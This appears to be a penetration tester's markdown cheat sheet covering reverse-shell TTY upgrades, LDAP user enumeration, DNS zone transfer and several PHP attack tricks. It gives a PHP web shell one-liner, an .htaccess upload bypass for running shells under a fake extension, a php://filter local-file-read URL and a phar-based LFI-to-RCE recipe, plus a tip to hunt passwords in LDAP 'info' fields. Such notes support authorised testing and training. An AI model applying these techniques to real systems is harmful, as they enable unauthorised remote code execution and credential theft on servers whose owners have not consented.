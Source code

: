 ```

## Upgrade shell to interactive
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- TDLR: 
  ```
  # In reverse shell
  $ python -c 'import pty; pty.spawn("/bin/bash")'
  Ctrl-Z

  # In Kali
  $ stty raw -echo
  $ fg

  # In reverse shell
  $ reset
  $ export SHELL=bash
  $ export TERM=xterm-256color
  $ stty rows <num> columns <cols>
  ```

# OpenVPN
- avoild collision: add ``` mssfix 1400 ``` to openvpn file

# DNS 
- DNS Zone transfer
- https://yogesh-verma.medium.com/zone-transfer-attacks-a-practical-guide-to-detection-and-prevention-2e8346d0297e
- Only works in tcp

# LDAP
1. LDAPsearch (kali)
- ``` ldapsearch -h {host} -x -b "DC=??,DC=local" '(objectClass=User) samaccountname | grep samaccountname | awk '{print $2}' ``` Get user list | remember remove obviously not using account e.g. Guest, system account
## Interesting Thing
- Look for 'info' field (some people will lazy put shared password there)

# Php
## PHP Wrappers
- some uncommon method
    1. ``` php://filter ```
    2. make command base64 ``` <?php echo system($_GET["cmd"]);?> ```
    3. insert ``` data:// ```
## Advanced PHP Bypass (Apache)
- not just using filetype alternatives
1. upload htaccess with this ``` echo "AddType application/x-httpd-php .dork" > .htaccess ```
2. upload shell.dork with reverse shell content (maybe Ivan Sincek?)
## phpinfo.php
- Look for interesting info e.g. $_DOCUMENT_ROOT (can inject files to the dir)
- Look for disabled command (search disabled) --> ** dfunc_bypasser may helps **
- Look for extensions all sub item version below (e.g. SFX .4 that exploit)
## Arbitary Read by LFI & php://filter Wrapper
- ``` http://192.168.69.69/{file/view/others...}=php://filter/convert.base64-encode/resource={index/home/others??}  ```
## using phar to smuggle php for LFI -> RCE
- https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters
1. write shell in shell.phar
2. ``` zip shell.phar {any type that bypass checking}```
3. running call in LFI e.g. ``` phar://directory/shell.phar/shell ```
  ```